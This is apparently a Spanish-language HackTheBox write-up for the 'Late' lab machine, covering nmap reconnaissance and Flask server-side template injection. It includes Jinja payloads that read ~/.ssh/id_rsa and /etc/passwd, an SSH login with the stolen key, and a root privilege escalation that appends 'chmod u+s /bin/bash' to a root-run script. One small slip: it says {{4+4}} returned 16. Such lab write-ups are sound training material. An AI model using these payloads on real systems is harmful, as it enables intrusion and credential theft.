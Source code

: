 ```yaml
---
layout:   post
title:    "Write Up Late."
subtitle: "Starting-Point"
category:   HTB
tags:      [Easy,Linux,Upload,SSTI,SSH,Write-Up-Machine,Starting-Point,eWPT,OSWE,OSCP]  
---
```

![list](/assets/img/late/late.png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando 

diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.11.156 -oA allports
```
El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}


![list](/assets/img/late/Arch-2022-06-15-16-16-56.png){:.lead width="800" height="100" loading="lazy"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comandoa anterior debemos saber que 

versiones y servicios que corren en los mismo de ahi podremos determinara posibles 

vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -p22,80 -sV -sC 10.10.11.156 -oN target
```
El paso anterior no es nesesario ser (root).
{:.note title="Attention"}


![list](/assets/img/late/Arch-2022-06-15-16-16-56.png){:.lead width="800" height="100" loading="lazy"}


***
## Analisis de vulnerabilidades

Uso de Investigacion web, Google Hacking,Google Dorks.

Recopilación de información gracias a servicios de terceros.

Inpeccionamos las tecnologias de la ip ataves de la terminal o via  web esto lo 

hacemos con wapalizzer o whatweb con esto no conseguimos nada.

![list](/assets/img/late/Arch-2022-06-15-16-58-15.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Con `ctrl + u` podemos encontrar el dominio `images.late.htb` en cual ingresamos al `/etc/host` y recargamos.

![list](/assets/img/late/Parrot-SO3-2022-08-01-15-21-31.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Con `gobuster` podemos encontrar el dominio `images.late.htb` en cual ingresamos al `/etc/host` y recargamos.

![list](/assets/img/late/Arch-2022-06-15-16-33-26.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
En este dominio vemos que podemos subir archivos pero tambien algo interesante 

`with Flask` y muchas de las veces es vulnerable a `Server Side Template Injection`.

![list](/assets/img/late/Parrot-SO3-2022-08-01-15-56-30.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Con libreOfice subimos una imagen con `{{4+4}}`. 

![list](/assets/img/late/Parrot-SO3-2022-08-01-16-06-03.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Como la respuesta es `16` corrovoramos que si es vulnerable a SSTI. 

Sabiendo esto usaremos un payload de  [PayloadsAllTheThings] crearemos una imagen que nos 

permita ejecutar comandos tal para ver los `usuarios` y la `id_rsa`.

[PayloadsAllTheThings]: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal

![list](/assets/img/late/Parrot-SO3-2022-08-01-16-48-23.png){:.lead width="800" height="100" loading="lazy"}

```bash
{{ cycler.__init__.__globals__.os.popen('id; cat ~/.ssh/id_rsa').read() }}
```

{:.note}
Esto se hace con libreofice y se sube la imagen la respuesta es la id_rsa. 

Tenemos su id_rsa, ahora consigamos elusuario para entonces conectarnos atraves de ssh.

![list](/assets/img/late/Parrot-SO3-2022-08-01-16-18-52.png){:.lead width="800" height="100" loading="lazy"}

```bash
{{ cycler.__init__.__globals__.os.popen('id; cat /etc/passwd').read() }}
```

{:.note}
Esto se hace con libreofice y se sube la imagen la respuesta son los usuarios.

```bash
ssh svc_acc@10.10.11.156 -i id_rsa
```

{:.note}
No debes olvidarte de darle permiso 600 a la id_rsa.

***
## Escalacion de privileguios

Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles 

vectores para escalar de privilegios, podemos ver con pspy que root ejecuta un 

archivo llamado `ssh-alert.sh` cada que iniciamos sesión por ssh.


```bash
echo "chmod u+s /bin/bash" >> ssh-alert.sh
```
{:.note}
Inyectamos1 permisos u+s al archivo ssh-alert.sh y nos salimos ppero nos volvemos a 

conectarpor ssh.

```bash
ssh svc_acc@10.10.11.156 -i id_rsa
```

{:.note}
No debes olvidarte de darle permiso 600 a la id_rsa.


![list](/assets/img/late/Parrot-SO3-2022-08-01-17-11-25.png){:.lead width="800" height="100" loading="lazy"}


Para este punto solo debemos hacer `bash -p` y buscar las flag del user y la de root que estanen los 

escritoriosde svc_acc y de /root respectivamente.

***
```bash
🎉 Felicitaciones ya has comprometido Late de HackTheBox 🎉
```
{:.centered}
***
<!---Back to [Beginner Track](2022-09-12-Beginner-Track.md){:.heading.flip-title}
{:.read-more}--->